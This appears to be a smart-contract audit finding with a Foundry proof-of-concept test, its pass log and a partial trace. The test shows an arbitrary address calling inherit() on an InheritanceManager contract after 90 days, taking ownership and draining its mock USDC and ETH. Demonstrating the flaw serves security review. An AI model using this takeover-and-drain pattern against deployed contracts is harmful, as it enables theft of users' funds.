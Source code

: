 ### Impact/Proof of Concept
```
function test_inheritSetsMsgSenderAsOwnerAndDrainFunds() public {
        // Create attacker
        address attacker = makeAddr("attacker");

        // Give IM funds
        usdc.mint(address(im), 10e6);
        vm.deal(address(im), 10e18);
        console.log("IM USDC balance:",usdc.balanceOf(address(im)));
        console.log("IM ETH balance:",address(im).balance);

        // Owner add 1 beneficiary
        vm.startPrank(owner);
        im.addBeneficiery(user1);
        vm.stopPrank();

        // Fast forward 90 days
        vm.warp(90 days + 1);

        // Attacker calls inherit and becomes owner
        vm.startPrank(attacker);
        im.inherit();
        vm.assertEq(im.getOwner(), attacker);
        console.log("attacker addr:", attacker);
        console.log("IM owner:", im.getOwner());

        // Drain funds
        im.sendERC20(address(usdc), usdc.balanceOf(address(im)), attacker);
        im.sendETH(address(im).balance, attacker);
        vm.stopPrank();
        assertEq(usdc.balanceOf(address(im)), 0);
        assertEq(address(im).balance, 0);
        console.log("IM USDC balance:",usdc.balanceOf(address(im)));
        console.log("IM ETH balance:",address(im).balance);
    }
```
Results
```diff
[PASS] test_inheritSetsMsgSenderAsOwnerAndDrainFunds() (gas: 195310)
Logs:
  IM USDC balance: 10000000
  IM ETH balance: 10000000000000000000
  attacker addr: 0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e
  IM owner: 0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e
  IM USDC balance: 0
  IM ETH balance: 0

Traces:
  [195310] InheritanceManagerTest::test_inheritSetsMsgSenderAsOwnerAndDrainFunds()
    ├─ [0] VM::addr(<pk>) [staticcall]
    │   └─ ← [Return] attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e]
    ├─ [0] VM::label(attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e], "attacker")
    │   └─ ← [Return] 
    ├─ [46784] ERC20Mock::mint(InheritanceManager: [0x88F59F8826af5e695B13cA934d6c7999875A9EeA], 10000000 [1e7])
    │   ├─ emit Transfer(from: 0x0000000000000000000000000000000000000000, to: InheritanceManager: [0x88F59F8826af5e695B13cA934d6c7999875A9EeA], value: 10000000 [1e7])
    │   └─ ← [Stop] 
    ├─ [0] VM::deal(InheritanceManager: [0x88F59F8826af5e695B13cA934d6c7999875A9EeA], 10000000000000000000 [1e19])
    │   └─ ← [Return] 
```